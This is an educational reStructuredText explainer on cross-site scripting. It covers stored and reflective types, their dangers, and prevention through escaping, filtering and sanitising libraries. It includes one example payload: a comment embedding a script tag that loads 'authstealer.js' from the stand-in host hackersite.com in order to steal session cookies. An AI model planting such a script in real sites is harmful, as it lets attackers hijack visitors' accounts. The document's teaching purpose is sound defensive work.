 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the biggest website vulnerabilities. Web sites are 
especially vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. 

* Most danger lies on the users of the sites, as the code targets their information 
and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

* Stored xss is "stored", or imbedded, on the website itself and steals data every time 
the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
and can be the more dangerous of the two types. [xss-attacks]_

* Reflective xss is stored in a link embedded in the website that the user has to 
click on to activate. [xss-attacks]_ 


What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - most common protection [xss-attacks]_ 
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	before entering any untrusted or un-validated data [xss_cheat_sheet]_
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
HTML tags. They leave a comment that says: 
"Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
This is a stored in the website, and every time someone visits the page, they have their 
session cookies stolen


	* Harder for hackers to attempt, because they must find a highly trafficked site that 
	also has a security hole. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, but the user would have to click on the link 
to activate the code. 


Sources
-------

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. N.p. n.d. Web. 16 Feb. 2017. 

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. N.p., n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. N.p., n.d. Web. 19 Feb. 2017.

*Written by Kyann, Edited by Rasim and Cole.*

